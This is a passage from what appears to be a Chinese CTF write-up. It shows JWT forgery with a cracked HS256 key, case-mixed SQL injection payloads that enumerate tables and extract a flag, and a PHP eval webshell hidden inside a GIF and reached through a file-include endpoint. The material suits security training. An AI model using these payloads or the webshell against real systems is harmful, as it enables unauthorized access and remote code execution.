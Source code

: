 得到key=5807，拿去[JSON Web Tokens - jwt.io](https://jwt.io/)

```
HEADER:
{
  "typ": "JWT",
  "alg": "HS256"
}
PAYLOAD:
{
  "identity": "guest",
  "exp": 1724610414
}
VERIFY SIGNATURE:
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload), 
  5807
)
```

修改"identity"为"admin"，得到新的jwt

2. 修改Cookie，进入到/queryuserphone，GET /queryuserphone?user=flag' OR ''='

   得到hint："Upper case And Lower Case"

   利用MySql无大小写检测，查看有哪些表

GET `/queryuserphone?user=' Union Select GrOup_coNcat(table_name),2 FrOm InFoRmAtIoN_ScHeMa.tables WhErE TaBlE_ScHeMa=DaTaBaSe() ANd ''='`

发现有两个表`adwoivfhaoihfagfiuaviuf`, `user`

查看`adwoivfhaoihfagfiuaviuf`有哪些colum

GET `/queryuserphone?user='Union Select GrOup_coNcat(column_name),2 FrOm InFoRmAtIoN_ScHeMa.columns WhErE TaBlE_NaMe='adwoivfhaoihfagfiuaviuf' ANd ''='`

仅有flag，故查询flag

GET `/queryuserphone?user=' Union Select flag,2 FrOm adwoivfhaoihfagfiuaviuf WhErE ''='`

```
SSHCTF{1e8bfe8b-f9e0-4e5f-b98a-6b87b75a26c5}
```

### ezUpload

1. 首先做图片马：随便上传一张gif，上传后再下载下来，比对前后有区别，说明二次渲染了

   在上传前后没有变化的区域插入一句话木马   `<?php @eval($_POST['cmd']); ?>`

   上传修改后的gif，再拿下来，发现插入成功

2. 用蚁剑连接`/include.php?filename=<上传后的图片名称>.gif`，连接成功，但shell无法执行指令（ret-1）

   ![image-20240826072316971](C:\Users\Mingz\AppData\Roaming\Typora\typora-user-images\image-20240826072316971.png)同时找到了flag所在位置，但/app/flag无法查看
